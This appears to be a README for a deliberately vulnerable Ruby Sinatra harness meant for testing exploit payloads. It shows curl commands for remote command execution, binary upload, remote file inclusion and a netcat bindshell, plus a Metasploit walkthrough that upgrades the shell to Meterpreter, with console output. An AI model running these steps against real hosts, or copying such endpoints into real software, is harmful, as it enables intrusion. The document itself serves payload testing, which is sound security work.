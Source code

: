 # Paystub Sinatra

This is some stub code for testing exploit payloads under a ruby runtime.

## Installation

Short version: you do not want to install this. But if you must:

    git clone https://github.com/ryanbreed/paystub-sinatra
    cd paystub-sinatra
    bundle install --path=vendor/bundle
    bundle exec rackup -o 0.0.0.0 -p 8000

## Usage

Seriously, you do not want to use this. It contains nothing but bad ideas.

### oneshot command execution

    curl "http://doomed:8000/oneshot?cmd=id"
    curl "http://doomed:8000/oneshot?cmd=aWQK&encode=base64"
    curl -XPOST -d 'cmd=aWQK&encode=base64' http://doomed:8000/oneshot

### file upload via PUT

    cat $(which id) | curl -XPUT --data-binary @- "http://doomed:8000/upload/id.bin"

### remote file inclusion

    curl "http://doomed:8000/rfi?url=http://remote-server/path/to/code.rb"

### fork a bindshell

    curl "http://doomed:8000/bindshell?port=4455&runit=true"
    echo id | nc doomed 4455
    echo 'exit!' | nc doomed 4455

### upgrade bindshell to meterpreter
    curl "http://doomed:8000/bindshell?port=4455&runit=true"
    ./msfconsole
    use payload/multi/handler
    set PAYLOAD ruby/shell_bind_tcp
    set RHOST doomed
    set LPORT 4455
    exploit

    [*] Started bind handler
    [*] Starting the payload handler...
    [*] Command shell session 1 opened ...
    ^Z

    Background session 1? [y/N]  y
    msf exploit(handler) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on attacker:4433
    [*] Starting the payload handler...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to doomed
    [*] Command stager progress: 100.00% (668/668 bytes)
    [*] Meterpreter session 2 opened
    msf exploit(handler) > 
## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/ryanbreed/paystub-sinatra. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

